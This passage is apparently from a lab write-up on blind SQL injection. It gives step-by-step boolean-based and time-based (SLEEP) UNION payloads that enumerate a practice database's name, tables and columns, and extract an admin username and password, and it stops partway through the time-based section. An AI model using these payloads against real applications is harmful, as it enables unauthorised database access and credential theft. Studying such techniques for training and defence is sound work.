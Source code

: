  Sequentially change the character and check the respons is true or flase
 suppose we got the ***database name  :sqli_three***
 
#### Step 3:Find out table name
 
 
      admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--         
      
Sequentially change the character and check the respons is true or flase
suppose we got the ***table name  :users***
#### Step 4:Find out Column name
     
      admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

After,sequentially Repeating this process you will get column name.
suppose, the ***column name username and another is password***

#### Step 5:Find out username column value
      
      admin123' UNION SELECT 1,2,3 from users where username like 'a%
 
 After,sequentially Repeating this process you will get ***column username value and this is:admin.***
 
#### Step 6:Find out password column value

        admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%

if you properly do this , you will get ***password and the credentials are username=admin ,password=3356 ***

# Time Base SQL Injection

A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced by using built-in methods such as ***SLEEP(x)*** alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 
So, for example, when trying to establish the number of columns in a table, you would use the following query:
      
      admin123' UNION SELECT SLEEP(5);--
      
#### Step 1:Find out actual column number
      
      admin123' UNION SELECT SLEEP(5);--
If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:
      
      admin123' UNION SELECT SLEEP(5),2;--
if again no pause in the response time , increase column number like
      
      admin123' UNION SELECT SLEEP(5),2,3;--
### Step 2:Find out dabase name 
      admin123' UNION SELECT SLEEP(5),2,3 where database() like 'u%';--
Here dabase ***name :sqli_four***     
### Step 3:Find out table name
      admin123' UNION SELECT SLEEp(5),2,3 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'a%';--
Here ***table name:users***
